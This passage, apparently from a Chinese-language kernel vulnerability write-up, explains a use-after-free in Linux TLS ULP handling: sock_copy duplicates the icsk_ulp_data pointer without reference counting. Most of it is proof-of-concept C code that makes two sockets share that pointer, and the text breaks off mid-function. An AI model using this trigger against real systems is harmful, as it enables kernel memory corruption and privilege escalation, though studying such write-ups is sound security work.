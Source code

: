 ```C
struct tcp_sock {
    /* inet_connection_sock has to be the first member of tcp_sock */
    struct inet_connection_sock inet_conn;
    .....
}
```

根据 tcp\_prot 的定义，在 sock\_copy 通过 memcpy 拷贝 sk-&gt;sk\_dontcopy\_end 后面的成员时就会拷贝 icsk-&gt;icsk\_ulp\_data ，漏洞的关键点是对象指针拷贝后没有使用引用计数管理，释放其中一个指针就会导致悬垂指针的产生。

这样就会有两个 sk 对象指向同一个 icsk\_ulp\_data 指针，从而会导致 UAF，关键 POC

```C
int tls_ctx_alloc(int port)
{
    struct sockaddr_in addr;
    socklen_t len = sizeof(addr);
    int tls, s;

    tls = socket(AF_INET, SOCK_STREAM, 0);
    s = socket(AF_INET, SOCK_STREAM, 0);

    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INADDR_ANY;
    addr.sin_port = htons(port);

    // Put the socket into ESTABLISHED state
    bind(s, &addr, sizeof(addr));
    listen(s, 0);
    connect(tls, &addr, sizeof(addr));
    accept(s, &addr, &len);

    // Initialize TLS ULP
    setsockopt(tls, SOL_TCP, TCP_ULP, "tls", sizeof("tls"));

    return tls;
}

int clone_ulp(int sk, int port)
{
    struct sockaddr_in addr;
    socklen_t len = sizeof(addr);
    int s, new;

    s = socket(AF_INET, SOCK_STREAM, 0);

    // Disconnect the input socket `sk`
    addr.sin_family = AF_UNSPEC;
    addr.sin_addr.s_addr = INADDR_ANY;
    addr.sin_port = htons(port);
    connect(sk, &addr, sizeof(addr));

    // Listen on `sk` (This should not happen!)
    addr.sin_family = AF_INET;
    bind(sk, &addr, sizeof(addr));
    listen(sk, 0);
    connect(s, &addr, sizeof(addr));

    // Clone icsk_ulp_data
    new = accept(sk, &addr, &len);

    // Now the input socket `sk` and `new`
    // share the same icsk_ulp_data pointer
    return new;
```